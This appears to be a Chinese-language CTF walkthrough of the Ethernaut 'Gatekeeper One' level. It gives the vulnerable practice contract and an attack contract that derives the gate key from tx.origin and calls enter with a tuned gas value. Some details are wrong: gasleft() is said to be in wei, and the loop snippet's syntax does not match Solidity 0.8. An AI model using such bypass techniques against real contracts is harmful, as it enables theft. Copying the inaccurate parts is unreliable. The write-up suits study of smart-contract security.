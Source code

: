 ### 第十三关 Gatekeeper One
### 难度4/5
## 这一关的通关条件是通过三道modifier。
## 代码如下：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
所谓的gate就是指合约中的modifier，关卡合约里一共三个modifier。只要通过这三个条件就可以过关了，我们一个个看：
### Gate One
这个修饰器中的作用是校验msg.sende与tx.origin不相等。所以用EOA账户调用攻击合约发起交易就可以做到这点。
### Gate Two
知识点：gasleft()是Solidity提供的内置函数，用于返回当前交易或函数调用中剩余的Gas数量（以wei为单位）。所以这里的要求是剩余gas必须是8191的整数倍才行。这里使用一个for循环以及8191 * 3，使得gas更加接近可能是因为它接近典型的gas消耗范围（20,000–30,000）。
```solidity
for (uint256 i = 0; i < 8191; i++) {
    if (address(_param).call.gas(i + 8191 * 3)(bytes4(keccak256("enter(bytes8)")), _gateKey)) {
        return true;
    }
}
```
### Gate Three
要通过这个修饰器，我们需要构造一个bytes8类型的_gateKey，使其满足修饰器中的三个require条件。
- uint64(_gateKey) 的低32位等于其低16位，例如，如果低16位是0xABCD，则低32位必须是0xABCDABCD。
- 低32位不等于整个64位值，uint64(_gateKey)的高32位不能全为0，否则uint64(_gateKey)等于其低32位。因此，uint64(_gateKey) 的高32位必须至少有一位非0。
- uint64(_gateKey)的低32位必须等于tx.origin的低16位，uint64(_gateKey) 的低 32 位必须与 tx.origin 的低16位一致。
所以bytes8 _gateKey = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF；
## 解题步骤：
1. 打开remix，部署攻击合约：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperOne {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function attack() public {
        bytes8 key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        IGatekeeperOne(levelInstance).enter{gas: 40526}(key);
    }
}
```gas的具体值是我根据remix的debug功能试验出来的，背后原理我还没怎么摸清楚，以后再补充。
2. 发动attack提交过关。
